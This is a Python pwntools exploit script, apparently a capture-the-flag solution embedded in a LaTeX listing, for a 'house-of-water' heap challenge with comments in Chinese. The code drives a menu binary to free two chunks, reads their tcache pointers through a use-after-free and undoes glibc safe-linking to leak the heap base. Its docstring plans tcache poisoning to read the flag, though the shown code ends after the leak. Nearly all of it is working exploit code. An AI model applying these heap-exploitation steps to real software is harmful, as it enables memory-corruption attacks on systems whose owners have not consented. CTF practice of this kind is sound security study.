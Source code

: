 \begin{lstlisting}[style=py]
#!/usr/bin/env python3
"""house-of-water: UAF -> safe-linking heap leak -> tcache poisoning -> flag"""
import os, re, sys
from pwn import *

context.arch = 'amd64'
context.log_level = 'info'

ROOT = '/home/kzzz/Documents/code/ctf/ctf7/pwn'
BIN  = os.path.join(ROOT, 'solve/house/chal_patched')
elf  = ELF(BIN, checksec=False)

SIZE          = 0x100
TCACHE_STRUCT = 0x290              # flag chunk 的「假標頭」
FLAG_USER     = TCACHE_STRUCT + 0x10   # heap+0x2a0

def start():
    return process(BIN, cwd=os.path.dirname(BIN))

def exploit(io):
    io.recvuntil(b'> ')

    def add(idx, size):
        io.sendline(b'1')
        io.sendlineafter(b'Index: ', str(idx).encode())
        io.sendlineafter(b'Size: ', str(size).encode())
        io.recvuntil(b'> ')

    def free(idx):
        io.sendline(b'2')
        io.sendlineafter(b'Index: ', str(idx).encode())
        io.recvuntil(b'> ')

    def edit(idx, off, data):
        io.sendline(b'3')
        io.sendlineafter(b'Index: ', str(idx).encode())
        io.sendlineafter(b'Offset: ', str(off).encode())
        io.sendlineafter(b'Length: ', str(len(data)).encode())
        io.recvuntil(b'Data (')
        io.sendafter(b'bytes): ', data)        # fread()：raw bytes，不加換行
        io.recvuntil(b'> ')

    def show(idx, off, length):
        io.sendline(b'4')
        io.sendlineafter(b'Index: ', str(idx).encode())
        io.sendlineafter(b'Offset: ', str(off).encode())
        io.sendlineafter(b'Length: ', str(length).encode())
        out = io.recvuntil(b'> ')
        raw = b''.join(bytes.fromhex(h.decode())
                       for h in re.findall(rb'\b[0-9a-f]{2}\b', out))
        return raw[:length]

    # --- 1. 同一個 tcache bin 的兩兄弟 --------------------------------
    add(0, SIZE)                 # A
    add(1, SIZE)                 # B
    free(0)                      # tcache[0x110] = [A]
    free(1)                      # tcache[0x110] = [B, A]

    # --- 2. 從 UAF 的 fd 反推 heap（hexdump，不會被 0x00 截斷）---------
    fd_a  = u64(show(0, 0, 8))   # A->fd == A >> 12
    fd_b  = u64(show(1, 0, 8))   # B->fd == A ^ (B >> 12)
    a_addr = fd_b ^ fd_a
    heap   = fd_a << 12
    assert a_addr >> 12 == fd_a, 'A/B 不在同一頁'
    log.success('A = %#x  (heap+%#x)   heap = %#x', a_addr, a_addr - heap, heap)


\end{lstlisting}
